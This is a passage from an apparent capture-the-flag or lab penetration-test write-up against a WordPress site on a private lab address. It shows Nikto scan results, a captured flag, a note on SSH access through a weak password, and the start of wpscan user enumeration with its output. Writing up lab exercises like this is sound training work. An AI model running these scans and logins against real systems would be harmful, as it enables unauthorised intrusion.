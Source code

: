 ```bash
+ /wordpress/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version
+ /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /wordpress/license.txt: License file found may identify site software.
+ /wordpress/: A Wordpress installation was found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wordpress/wp-login.php: Wordpress login found
+ 26522 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2022-02-26 10:22:02 (GMT-8) (185 seconds)

---------------------------------------------------------------------------
```

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used - SSH Access to Webserver due to weak password**
      - First navigated to 192.168.1.110 to view Raven security website. On clicking the blog hyperlink on the homepage, I found a wordpress site located at http://192.168.1.110/wordpress/.
      - Using wpscan enumerated users and any potential vulnerabilities.
      ```
      root@Kali:~# wpscan --url http://192.168.1.110/wordpress --enumerate vp,u
      _______________________________________________________________
          __          _______   _____
          \ \        / /  __ \ / ____|
           \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
            \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_  \
             \  /\  /  | |     ____) | (__| (_||| | | |
              \/  \/   |_|    |_____/ \___|\__,_|_| |_|

          WordPress Security Scanner by the WPScan Team
                          Version 3.7.8
        Sponsored by Automattic - https://automattic.com/
        @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
      _______________________________________________________________

      [+] URL: http://192.168.1.110/wordpress/
      [+] Started: Thu Feb 24 20:11:05 2022

      Interesting Finding(s):

      [+] http://192.168.1.110/wordpress/
      | Interesting Entry: Server: Apache/2.4.10 (Debian)
      | Found By: Headers (Passive Detection)
      | Confidence: 100%

      [+] http://192.168.1.110/wordpress/xmlrpc.php
      | Found By: Direct Access (Aggressive Detection)
      | Confidence: 100%
      | References:
      |  - http://codex.wordpress.org/XML-RPC_Pingback_API
      |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
      |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
      |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
      |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access
